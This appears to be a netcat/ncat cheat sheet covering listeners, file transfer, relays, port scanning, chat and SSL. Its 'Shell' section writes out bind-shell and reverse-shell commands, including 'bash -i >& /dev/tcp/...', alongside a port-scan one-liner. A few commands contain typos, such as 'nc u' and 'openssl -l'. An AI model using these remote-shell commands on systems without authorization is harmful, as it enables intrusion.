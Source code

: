 
The `ncat` (`nc`) command is a versatile utility tool for basic TCP or UDP communication.

Note that any function here needing a more advanced switch than `-l` (listen mode) or `-v` (verbose mode) will probably depend on using nmap-ncat. This more feature-heavy expansion on the original `netcat` command is often standard on Linux distributions.

For more information on nmap-ncat: https://nmap.org/ncat/guide/index.html

## Basic Usage

Listen on TCP/3000 (default is TCP/31337):

    nc -l 3000

Listen on UDP/3000:

    nc u -l 3000

Client (to 10.20.30.40 on TCP/4000):

    nc 10.20.30.40 4000

## File Transfer

Transferring a file to a listener:

    nc -l 4000 > file

Transferring a file from the client:

    cat file-contents | nc [address] [port]

Transferring a file from a listener:

    cat file | nc -l 8008

Loading a file from the listener to the client:

    nc -w3 localhost 8008 > file

## Shell

This section describes various flavours of creating an instant remote shell.

### Server Listener (Bind Shell)

In this example, the server that we will be getting a BASH shell for listens on a port. The common term for this seems to be a "Bind Shell".

Insta-shell:

    nc -l 3000 -e /bin/bash

If you wanted to do this on Windows machine with `nc`, you would just need to sub in `/bin/bash` for `cmd.exe`:

    nc -l 3000 -c cmd.exe

The client connects normally:

    nc server-host 3000

### Server as NCat Client

In this example, the server that we will be getting a BASH shell for connects out to a client listening with `nc`.

On the client, prepare a listening `nc` instance (using -v for some good-measure verbosity):

    nc -lv 4000

On the server, connect outwards to the listening client:

    nc client-host 4000 -e /bin/bash

The outward connection can also be done directly with BASH:

    bash -i >& /dev/tcp/client-host/4444 0>&1

## Port Redirect

To relay TCP connections aimed at the listener on port 1234 to 10.11.12.13 on port 4321:

    nc -lk 1234 -c "nc 10.11.12.13 4321"

The same can be done with UDP datagrams using the `-u` switch:

    nc -lku 1234 -c "nc 10.11.12.13 4321"

## Port Scan

`nc` can be used as a stand-in for `nmap` in a pinch.

To scan a range of TCP ports on an IP address:

    nc -v -n  -z -w1 [TargetIPaddr] [start_port]-[end_port]

## Brokering

With the `--broker` switch, `nc` can be used as a go-between for two clients that are not able to directly communicate with each other. To transfer a file:

    nc -l --broker 9999
    nc remote-server 9999 > file-contents
    cat file | nc remote-server 9999 --send-only

The drawback to this seems to be that the server intended to receive the data will need to manually enter an EOF (ctrl-D).

## Chat Server

Building on its brokering feature, `nc` has the ability to act as a basic chat server.

On the server:

    nc -vl 4000 --chat

On clients, connection does not require any special tricks:

    nc server-address 4000

Further notes:

* Although the server can send messages, user messages are not printed.
* Users are assigned names based solely on the file descriptor assigned to their TCP socket.
* The multi-user functionality of `--chat` is only necessary if you are expecting to support more than 2 users. If not, a regular listening session adds much less complexity.

## SSL Encryption

`nc` offers the option to encrypt communications with the `--ssl` switch.

If used directly, a temporary 1024-bit RSA key will be created:

    nc -l --ssl 1234

`nc` clients will connect normally, merely needing to use the `--ssl` switch as well.

### Permanent Certificate and Key

Example to create a static certificate and key pair:

    openssl req -x509 -nodes -days 365 -newkey rsa:1024 -keyout mykey.pem -out mycert.pem

To use these two new files when listening:

    openssl -l --ssl --ssl-cert mycert.pem --ssl-key mykey.pem

### Certificate Verification

The default behavior of `nc` is to automatically trust the certificate that it is connecting to.

To verify the certificate of the server that you are connecting to, use `--ssl-verify`. An easy way to test this is to connect to a website with HTTPS. If the `nc` connection does not immediately fail, then the connection was successful. HTTP servers will generally throw an error back at you if you enter any silly input that is not a valid HTTP request. This is also useful for confirming that `nc` worked as intended.

    nc --ssl --ssl-verify fedoraproject.org 443

If you are using a self-signed certificate, then you may want to instead use your own certificate collection. This can be done using `--ssl-trustfile` to specify a PEM-format list of certificates. Using `--ssl-trustfile` seems to imply `--ssl-verify`.

    nc --ssl --ssl-trustfile mycert.pem remote-address 9999

Unfortunately, it seems like for the moment you cannot have halfway verification (e.g. accepting certificates that are trusted but with a non-matching hostname). This means that you will need to be proper and particular about your hostname when making your certificate and connecting.

## TCP Banner

Some services advertise a banner if you send an empty payload to them. For example:

    nc -v -n -w1 10.11.12.13 22 <<< ""

Against an Ubuntu 16.04 machine, SSH (TCP/22) would output the following:

    Ncat: Version 7.12 ( https://nmap.org/ncat )
    Ncat: Connected to 10.11.12.13:22.
    SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu1
    Protocol mismatch.
    Ncat: 1 bytes sent, 58 bytes received in 0.05 seconds.


